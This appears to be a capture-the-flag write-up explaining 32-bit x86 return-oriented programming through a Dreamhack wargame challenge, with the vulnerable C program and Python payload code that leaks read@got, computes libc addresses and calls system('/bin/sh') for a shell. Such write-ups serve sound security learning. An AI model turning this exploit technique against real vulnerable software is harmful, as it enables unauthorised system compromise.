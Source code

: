 ```yaml
---
title: "ROP-2"
published: true
---
```


# ROP in x86 architecture

In x86 architecture, **function arguments are passed on the stack, below the return address** as shown in the diagram:

![](https://i.imgur.com/EX089Is.png)
Therefore, when crafting a ROP chain, we must place function arguments directly onto the stack, just after the return address.
To do this, we need gadgets such as `pop; pop; pop; ret;` that allows us to subtract esp to the point of the start of the stack frame.

Considering these facts, let's do challenge.
[Dreamhack](https://dreamhack.io/wargame/challenges/30)

## Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

## Step 1: Leak read@got using ROP

The buffer overflow vulnerability comes from the range of `read` function call. We can use this to leak the address of read@got with using a ROP chain with `write`.

Stack layout for the first ROP chain:
![](https://i.imgur.com/6tGXUmI.png)
So we can construct payload as:
```python
payload = b"A" * 0x48
payload += p32(write_plt) # e.plt['write']
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main) # e.symbols['main']
```

`pop3_ret: 0x8048689`
( We can get gadget using `ROPgadget`)
![](https://i.imgur.com/5XcJxPn.png)

## Step 2: Calculate Address from Leaked read@got

Since we decided to return to main, we have to send another payload executing `system("/bin/sh")`.
Once read@got is leaked, we can compute the libc base address, and then determine `system` and `/bin/sh` locations.

```python
libc_base = read - libc.symbols['read']
system = libc_base + libc.symbols['system']
sh_offset = list(libc.search(b"/bin/sh"))[0]
sh = libc_base + sh_offset
```

## Step 3: Build Final Exploit
Using the calculated addresses, we craft a second payload to call `system("/bin/sh")`:

![](https://i.imgur.com/HqdZQuT.png)
```python
payload = b"A" * 0x48
payload += p32(system)
payload += p32(pop_ret)
payload += p32(sh)
```


